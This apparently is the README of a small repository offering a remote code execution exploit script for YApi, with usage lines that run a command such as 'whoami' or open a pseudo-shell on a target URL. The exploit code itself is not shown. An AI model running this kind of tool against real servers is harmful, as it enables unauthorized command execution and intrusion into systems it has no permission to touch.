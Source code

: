 # yapi_exp
yapi漏洞利用脚本

命令执行：
python try777_yapi_rce.py -t http://demo.com -c whoami

伪shell:
python try777_yapi_rce.py -t http://demo.com -c shell

